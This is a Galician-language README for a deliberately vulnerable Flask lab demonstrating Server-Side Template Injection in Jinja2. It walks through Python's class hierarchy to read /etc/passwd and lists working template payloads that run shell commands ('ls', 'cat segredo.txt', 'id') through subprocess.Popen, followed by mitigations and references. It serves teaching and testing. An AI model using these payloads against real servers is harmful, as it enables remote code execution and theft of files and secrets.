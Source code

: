 # Descripción

Web feita con flask para demostrar como funciona unha inxección de plantillas (Server Side Template Injection).

# Que é flask?

Flask é un framework para aplicacións web lixeiro o cal permite crear páxinas web de forma simple. 

Flask utiliza Jinja2 coma motor de plantillas o cal permite utilizar placeholders que posteriormete a aplicación web 
enche de forma dinámica.

# Ataque

As vulnerabilidades de inxección de plantillas aparecen cando o input do usuario é embebido nunha platilla sen ningunha
comprobación previa. Isto produce que se poida executar código de forma remota no servidor afectado.

## Explotación

Para explotar un SSTI hai que encontrar unha forma de escapar da sandbox de Jinja e recuperar o acceso ao fluxo de 
execución normal de Python. Para conseguilo, hai que abusar de obxectos que están fora da sandbox pero que son 
accesibles dende ela.

En Python todo é un obxecto e iso permíte navegar pola árbore de herencia de calquera obxecto. Por exemplo, a partir dun
tipo de dato (string, enteiros ou floats) pódese obter a clase dese dato accedendo á referencia 
`__class__`:

```pycon
>>> "".__class__
<class 'str'>
```

Dende unha clase calquera pódese acceder á clase `object` mediante a súa `__base__`:

```pycon
>>> "".__class__.__base__
<class 'object'>
```

Si que se consiga acceder á clase `object` póndese ver todas as subclases que heredan desta clase mediante a referencia
`__subclasses__()`:

```pycon
>>> "".__class__.__base__.__subclasses__()
[<class 'type'>, <class 'async_generator'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'bytearray'>...]
```

Dende esa lista de clases hai que escoller a que mellor nos combeña. Neste exemplo, quérese ler o ficheiro 
`/etc/passwd` mediante a función `open()`. Para levar a cabo isto buscouse a clase `_io._IOBase` que a súa vez é pai da 
clase `_io.BytesIO` que a súa vez é pai da clase `_io.FileIO` a cal é a que ten a función `open()`:

```pycon
>>> "".__class__.__base__.__subclasses__()[129]
<class '_io._IOBase'>
>>> "".__class__.__base__.__subclasses__()[129].__subclasses__()
[<class '_io._RawIOBase'>, <class '_io._BufferedIOBase'>, <class '_io._TextIOBase'>, <class 'io.IOBase'>]
>>> "".__class__.__base__.__subclasses__()[129].__subclasses__()[2].__subclasses__()
[<class '_io.FileIO'>, <class 'io.RawIOBase'>]
>>> "".__class__.__base__.__subclasses__()[129].__subclasses__()[2].__subclasses__()[0]('/etc/passwd').read()
b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/...
```

Na seguinte imaxe móstrase o percorrido feito para chegar á clase `_io.FileIO`:

![Percorrido](./imaxes/Percorrido.drawio.png "Percorrido")

## Nota importante

Cando se listan as clases fillas da clase object, o resultado variará en función da versión de Python e dos módulos 
importados. Polo tanto, os payloads utilizados nestes exemplos poden cambiar.

# Playloads

Ver se a web é vulnerable a SSTI:

```python
{{}}
{{ 7 * 7 }}
```

Ver se podemos acceder á clase dun obxecto:

```python
{{ ''.__class__ }}
{{ dict }}
```

Obter as subclases:

```python
{{ ''.__class__.__base__.__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__() }}
{{ dict.__base__.__subclasses__() }}
```

## Versión 3.9.x de python

Neste punto hai que escoller a clase que mellor nos combeña. Para este caso escolleuse a clase **subprocess.Popen**, 
a cal nos permite executar comandos. No computador destas proba, a clase escollida atópase no índice 368 (noutros 
computadores pode cambiar o índice da clase).

Executar comandos:

```python
{{ ''.__class__.__base__.__subclasses__()[368]('ls',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
{{ ''.__class__.mro()[1].__subclasses__()[368]('ls',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
{{ dict.__base__.__subclasses__()[368]('ls',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
```

Conseguir o segredo:

```python
{{ ''.__class__.__base__.__subclasses__()[368]('cat segredo.txt',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
{{ ''.__class__.mro()[1].__subclasses__()[368]('cat segredo.txt',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
{{ dict.__base__.__subclasses__()[368]('cat segredo.txt',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
```

## Version 3.12.3 de python

Neste punto hai que escoller a clase que mellor nos combeña. Para este caso escolleuse a clase 
**importlib.util._incompatible_extension_module_restrictions**, a cal nos permite poder acceder a importlib para cargar
as librarías que queramos. No computador destas proba, a clase escollida atópase no índice 377 (noutros computadores 
pode cambiar o índice da clase).

Despois de escoller a clase, hai que ver se a clase ten definida a función `__init__`.

```python
{{ ''.__class__.__base__.__subclasses__()[377].__init__ }}
{{ ''.__class__.__mro__[1].__subclasses__()[377].__init__ }}
{{ dict.__base__.__subclasses__()[377].__init__ }}
```

Dende a funcion `__init__` pódese acceder ao diccionario `__globals__`. E o diccionario `__globals__` contén unha 
entrada para o diccionario `__builtins__`. No diccionario `__builtins__` podese cargar a libraría que nos conveña.

```python
{{ ''.__class__.__base__.__subclasses__()[377].__init__.__globals__['__builtins__'].__import__('subprocess').Popen('id',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
{{ dict.__base__.__subclasses__()[377].__init__.__globals__['__builtins__'].__import__('subprocess').Popen('id',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
{{ ''.__class__.__mro__[1].__subclasses__()[377].__init__.__globals__['__builtins__'].__import__('subprocess').Popen('id',shell=True,stdout=-1).communicate()[0].strip().decode('ascii') }}
```

# Mitigacións

- Non permitir aos usuarios enviar plantillas
- Utilizar platillas sen loxica como por exemplo Mustache
- Executar o código nunha sandbox a nivel de sistema operativo

# Referencias

- [PortSwigger - Server-side template injection](https://portswigger.net/web-security/server-side-template-injection)
- [Owasp - Testing for Server Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection)
- [Ingo Kleiber-A Simple Flask (Jinja2) Server-Side Template Injection (SSTI) Example](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)
